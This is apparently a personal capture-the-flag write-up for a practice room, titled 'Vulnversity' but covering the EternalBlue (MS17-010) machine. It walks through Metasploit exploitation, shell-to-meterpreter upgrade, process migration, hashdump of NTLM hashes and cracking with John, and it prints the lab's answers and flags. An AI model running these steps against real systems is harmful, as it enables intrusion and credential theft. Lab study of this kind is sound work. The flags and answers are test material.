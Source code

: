 # Module: Vulnversity

Author: Jackson Warren  
Date: August 30, 2022  

## Recon

Target IP = 10.10.132.200

### Nmap Scan
`$ nmap -sV -sC --script vuln -oN scans/nmap-10.10.132.200.out 10.10.132.200 -Pn`


How many ports are open with a port number under 1000?  
Answer: **3**

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)  
Answer: **MS17-010** - Google Eternal Blue Exploit

## Gain Access

Start Metasploit  

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)  
Answer: **exploit/windows/smb/ms17_010_eternalblue** -- search msfconsole for MS17-010


Show options and set the one required value. What is the name of this value? (All caps for submission)  

`use 0`  
`options`

Answer: **RHOSTS**

I also had to set LHOSTS to my tun0 IP

## Escalate

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
Answer: **post/multi/manage/shell_to_meterpreter**  

Select this (use MODULE_PATH). Show options, what option are we required to change?  

`use 0`
`options`

Answer: **SESSION**

Set the required option, you may need to list all of the sessions to find your target here.  
`session -l` - List sessions
`set SESSION 1` - Set session




List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

 1288  692   spoolsv.exe    x64   0        NT AUTHORITY\SYSTEM     C:\Windows\System32\spo
                                                                   olsv.exe
spoolsv.exe is great because it's the printer system and it always works with the architecture of the system, it's very stable, and if it does die you can easily restart it.  

## Cracking

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Answer: **Jon**

Copy this password hash to a file and research how to crack it. What is the cracked password?  
```
Blue git:(main) ✗ john jon.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (?)     
1g 0:00:00:00 DONE (2022-08-30 22:54) 2.000g/s 20400Kp/s 20400Kc/s 20400KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
```
Answer: **alqfna22**

## Find Flags!

Flag1? This flag can be found at the system root.  
```
cd /  
ls  
cat flag1.txt  
```
Answer: **access_the_machine**

*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.  

```
meterpreter > search / -f flag2.txt
Found 1 result...
=================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\Windows\System32\config\flag2.txt  34            2019-03-17 13:32:48 -0600
```

I had to cd through each directory until I got to config before I could cat the file, for some reason...

Answer: **flag{sam_database_elevated_access}**

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.  

`cd C:\Users\Jon\Documents`
`cat flag3.txt`

Answer: **flag{admin_documents_can_be_valuable}**







